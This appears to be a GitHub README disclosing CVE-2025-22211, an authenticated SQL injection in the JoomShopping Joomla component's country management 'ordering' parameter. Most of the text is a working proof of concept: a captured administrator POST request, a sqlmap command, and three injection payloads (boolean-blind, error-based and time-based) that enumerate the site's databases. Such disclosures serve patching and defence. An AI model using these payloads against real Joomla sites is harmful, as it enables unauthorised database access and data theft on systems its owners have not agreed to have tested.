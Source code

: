 # CVE-2025-22211: SQL injection in JoomShopping for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22211

**JoomShopping:** https://extensions.joomla.org/extension/joomshopping/

## Introduction
A SQL injection vulnerability in the JoomShopping component versions 1.0.0-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands in the country management area in backend.

## POC
To exploit this vulnerability go to 'JoomShopping >> Options >> Country list >> Country >> Afganistan' and save the save request to a file (req.txt).

![Alt text](5.png)

HTTP Request:
```
POST /administrator/index.php?option=com_jshopping&controller=countries HTTP/1.1
Host: localhost:8080
Content-Length: 117
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jshopping&controller=countries&task=edit&country_id=1
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; hikashop_descWidth_cookie=desc_width_small; eae16bf6d45765d2eca64438ea3379fc=2ee59dc8b23af00572d53b871598093e; 70dca465975331b55d5354a973a2cec1=3b1b2a80d6469690df4c88906dde07e4
Connection: keep-alive

country_publish=1&ordering=1&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1
```

Exploit:
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --batch --dbs --dbms=mysql -p ordering
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
Parameter: ordering (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: country_publish=1&ordering=1' AND EXTRACTVALUE(8366,CASE WHEN (8366=8366) THEN 8366 ELSE 0x3A END)-- iddH&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: country_publish=1&ordering=1' AND GTID_SUBSET(CONCAT(0x716a7a7671,(SELECT (ELT(4079=4079,1))),0x7178716271),4079)-- dRyK&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: country_publish=1&ordering=1' AND (SELECT 8740 FROM (SELECT(SLEEP(5)))QDfY)-- knHD&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
